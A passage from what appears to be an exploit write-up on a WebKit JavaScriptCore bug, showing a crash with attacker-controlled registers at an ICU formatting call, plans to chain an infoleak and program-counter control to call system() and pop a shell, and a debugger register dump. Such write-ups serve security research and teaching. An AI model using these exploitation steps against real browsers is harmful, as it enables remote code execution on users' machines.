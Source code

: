 Giving us:

```text
Thread 1 "jsc" received signal SIGSEGV, Segmentation fault.
…
$rax   : 0x0000000041414141
…
 → 0x7ffff4b7c769 <unum_formatDouble_57+185> call   QWORD PTR [rax+0x48]
```

Yeah, we can probably exploit this =p

I’d like to say that finding this was due to a deep reading and understanding of WebKit’s internationalization code, but really I was just trying things at random until something crashed in a useful looking state. I’m sure I tried dozens of other things that didn’t end up working out along the way... From a pedagogical perspective, I’m aware that listing random things I tried is not exactly optimal, but that’s actually how I did it so :)

### Exploit Planning

Let’s pause to take stock of where we’re at:

* We have an arbitrary infoleak
* We have a relative write and no good way to expand it to an arbitrary write
* We have control over the program counter

Using the infoleak we can find pretty much anything we want, thanks to linux loader behavior (`libc.so.6` and thus `system()` will always be at a fixed offset from `libJavaScriptCore.so` which we already have the base address of leaked). A “proper” exploit would take a arbitrary shellcode and result in it’s execution, but we can settle with popping a shell.

The ideal case here would be we have control over `rdi` and can just point `rip` at `system()` and we’d be done. Let’s look at the register state where we hijack control flow, with pretty printing from [@_hugsy](https://twitter.com/_hugsy)’s excellent [gef](https://github.com/hugsy/gef).

```text
$rax   : 0x0000000041414141
$rbx   : 0x0000000000000000
$rcx   : 0x00007fffffffd644  →  0xb2de45e000000000
$rdx   : 0x00007fffffffd580  →  0x00007ffff4f14d78  →  0x00007ffff4b722d0  →  <icu_57::FieldPosition::~FieldPosition()+0> lea rax, [rip+0x3a2a91]        # 0x7ffff4f14d68 <_ZTVN6icu_5713FieldPositionE>
$rsp   : 0x00007fffffffd570  →  0x7ff8000000000000
$rbp   : 0x00007fffffffd5a0  →  0x00007ffff54dfc00  →  0x00007ffff51f30e0  →  <icu_57::UnicodeString::~UnicodeString()+0> lea rax, [rip+0x2ecb09]        # 0x7ffff54dfbf0 <_ZTVN6icu_5713UnicodeStringE>
$rsi   : 0x00007fffffffd5a0  →  0x00007ffff54dfc00  →  0x00007ffff51f30e0  →  <icu_57::UnicodeString::~UnicodeString()+0> lea rax, [rip+0x2ecb09]        # 0x7ffff54dfbf0 <_ZTVN6icu_5713UnicodeStringE>
$rdi   : 0x00007fffb2d5c120  →  0x0000000041414141 ("AAAA"?)
$rip   : 0x00007ffff4b7c769  →  <unum_formatDouble_57+185> call QWORD PTR [rax+0x48]
$r8    : 0x00007fffffffd644  →  0xb2de45e000000000
$r9    : 0x0000000000000000
$r10   : 0x00007ffff35dc218  →  0x0000000000000000
$r11   : 0x00007fffb30065f0  →  0x00007fffffffd720  →  0x00007fffffffd790  →  0x00007fffffffd800  →  0x00007fffffffd910  →  0x00007fffb3000000  →  0x0000000000000003
$r12   : 0x00007fffffffd644  →  0xb2de45e000000000
$r13   : 0x00007fffffffd660  →  0x0000000000000000
$r14   : 0x0000000000000020
$r15   : 0x00007fffb2d5c120  →  0x0000000041414141 ("AAAA"?)
```
